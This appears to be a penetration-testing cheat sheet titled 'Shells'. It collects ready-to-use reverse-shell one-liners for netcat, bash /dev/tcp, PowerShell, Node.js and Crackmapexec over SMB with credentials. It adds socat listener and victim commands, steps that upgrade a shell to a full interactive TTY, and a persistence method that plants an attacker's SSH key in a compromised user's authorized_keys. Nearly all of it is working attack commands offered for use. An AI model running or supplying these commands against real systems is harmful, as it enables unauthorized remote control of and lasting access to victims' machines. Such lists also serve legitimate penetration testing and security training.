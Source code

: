 # Shells

## Netcat (nc)  

Some version of netcat do not have the `-e` switch avaiable.  On these you can pipe the commands into netcat.  

Server:
```
rm -f /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/sh -i 2>&1 | nc IP PORT  > /tmp/f
```
Client:  
`nc -lvp PORT`

## Bash  
`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`  

## Powershell
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP ADDRESS>',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
`

## Node.js  
`require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/192.168.49.170/80+0>%261"')`

## Crackmapexec with Powershell
```
crackmapexec smb -d . -u <user> -p '<password>' -X "$c = New-Object System.Net.Sockets.TCPClient('<LHOST>',<LPORT>);$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$c.Close()" <RHOST>
```
  
# Upgrading to Interactive Shells

## Simple upgrades  
Python  
`python -c 'import pty;pty.spawn("/bin/bash")'`  

Script  
```
exec script /dev/null      
Script started, file is /dev/null    
bash
```

Socat  
Listener:  
```socat file:`tty`,raw,echo=0 tcp-listen:<PORT>```

Victim:  
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LISTENER_IP>:<PORT>`  

## Upgrading to full interactive shell  
**In existing reverse shell**  
```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z   
```

Attacker  
```
stty raw -echo  
fg  
```
in zsh  
```
stty raw -echo; fg <enter><enter>
```

Victim  
```reset 
export SHELL=bash  
export TERM=xterm-256color  
stty rows <num> columns <cols>  
``` 
**SSH**  


1. Create a .ssh directory in the home directory of the compromised user.
2. Create a new keypair on the attacker machine using `ssh-keygen` 
3. Transfer the public key to the victim machine at save in the .ssh folder as `authorized_keys`
4. Apply the appropriate file permissions  
```
chmod 0700 /home/user/.ssh  
chmod 0644 /home/user/.ssh/authorized_keys
```
6. SSH into the system using the private key.
